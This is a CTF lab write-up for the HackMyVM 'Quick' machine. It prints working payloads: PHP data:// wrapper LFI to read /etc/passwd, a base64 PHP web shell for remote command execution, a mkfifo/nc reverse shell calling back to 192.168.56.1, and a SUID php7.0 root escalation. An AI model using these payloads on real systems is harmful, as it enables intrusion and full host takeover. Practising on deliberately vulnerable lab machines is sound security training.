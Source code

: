 ```yaml
---
title: "HackMyVM - Quick"
description: ""
tags: LFI LFI2RCE PHP-LFI
categories: CTF HACKMYVM
author: raylex
date: 2024-01-31
---
```

## Enumeration
- - -
### Ports
Target has only one port open - 80 (HTTP)
I discovered LFI in the endpont
```
http://192.168.56.101/index.php?page=
```
since i know it's PHP, i'll grab a PHP wrappers from [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)  
I'll get the `/etc/passwd` file using this payload:
```
data://text/plain,<?php echo base64_encode(file_get_contents("/etc/passwd")); ?>
```
## Foothold
- - -
I see there's a user `andrew` on the target and i can read their home directory which contains the user flag.  
I'll use one of the payloads to get RCE and retrieve user flag
Payload:
```
data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```
Request:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="cat+/home/andrew/user.txt""
```
The content of the base64 is
```
<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```
Result:
```
    <main>


                                 _________
                          _.--""'-----,   `"--.._
                       .-''   _/_      ; .'"----,`-,
                     .'      :___:     ; :      ;;`.`.
                    .      _.- _.-    .' :      ::  `..
                 __;..----------------' :: ___  ::   ;;
            .--"". '           ___.....`:=(___)-' :--'`.
          .'   .'         .--''__       :       ==:    ;
      .--/    /        .'.''     ``-,   :         :   '`-.
   ."', :    /       .'-`\\       .--.\ :         :  ,   _\
  ;   ; |   ;       /:'  ;;      /__  \\:         :  :  /_\\
  |\_/  |   |      / \__//      /"--\\ \:         :  : ;|`\|
  : "  /\__/\____//   """      /     \\ :         :  : :|'||
["""""""""--------........._  /      || ;      __.:--' :|//|
 "------....______         ].'|      // |--"""'__...-'`\ \//
   `|HMV{flag-flag}|.--'": :  \    //  |---"""      \__\_/
     """""""""'            \ \  \_.//  /
       `---'                \ \_     _'
                             `--`---'
```

## Privilege Escalation 
- - -
I got reverse shell as `www-data` using this payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%203371%20%3E%2Ftmp%2Ff""
```
Stabilize the shell.  
Looking at he `SUID` binaries i see an unusual binary `/usr/bin/php7.0` according to [php | GTFOBins](https://gtfobins.github.io/gtfobins/php/) i can spawn a shell as root:
```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
I have shell as root, so i'll retieve the root flag
```
# cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM
 .-------------`------------'-'-----|-----.
(___HMV{root-flag}__)
  MMMMMM                            MMMMMM
  `MMMM'                            `MMMM'
```
